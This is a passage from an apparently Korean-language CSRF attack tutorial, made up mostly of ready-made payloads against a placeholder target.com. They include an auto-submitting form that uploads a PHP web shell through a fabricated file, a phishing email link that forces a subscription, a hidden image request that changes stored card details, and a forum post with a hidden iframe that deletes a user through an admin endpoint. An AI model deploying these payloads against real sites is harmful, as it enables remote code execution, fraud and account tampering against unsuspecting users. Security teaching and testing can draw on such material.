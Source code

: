 ### 2.3. 파일 업로드 CSRF

#### 2.3.1. multipart/form-data 폼
```html
<form action="http://target.com/upload" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="file" value="malicious_file.php">
    <input type="hidden" name="description" value="Legitimate file">
    <input type="file" name="upload_file" style="display:none">
</form>

<script>
// 가짜 파일 데이터 생성
var form = document.querySelector('form');
var fileInput = document.querySelector('input[type="file"]');

// Blob을 이용한 가짜 파일 생성
var maliciousContent = '<?php system($_GET["cmd"]); ?>';
var blob = new Blob([maliciousContent], {type: 'text/plain'});
var file = new File([blob], 'shell.php', {type: 'text/plain'});

// DataTransfer를 이용해 파일 할당
var dataTransfer = new DataTransfer();
dataTransfer.items.add(file);
fileInput.files = dataTransfer.files;

form.submit();
</script>
```

### 2.4. 소셜 엔지니어링 연계 공격

#### 2.4.1. 이메일을 통한 공격
```html

<p>안녕하세요! 특별 혜택을 위해 아래 링크를 클릭해주세요.</p>
<a href="http://target.com/subscribe_premium?plan=yearly&auto_renew=true">
    프리미엄 1년 무료 사용하기
</a>


<img src="http://target.com/api/update_payment?card=1234567890123456&exp=12/25" 
     style="width:1px;height:1px;display:none">
```

#### 2.4.2. 게시판을 통한 공격
```html

<div>
    <h3>유용한 정보 공유합니다!</h3>
    <p>이 내용을 보시는 분들께 도움이 되었으면 합니다.</p>
    
    <!-- 보이지 않는 CSRF 공격 -->
    <iframe src="http://target.com/admin/delete_user?id=victim_id" 
            width="0" height="0" style="display:none"></iframe>
</div>
```

---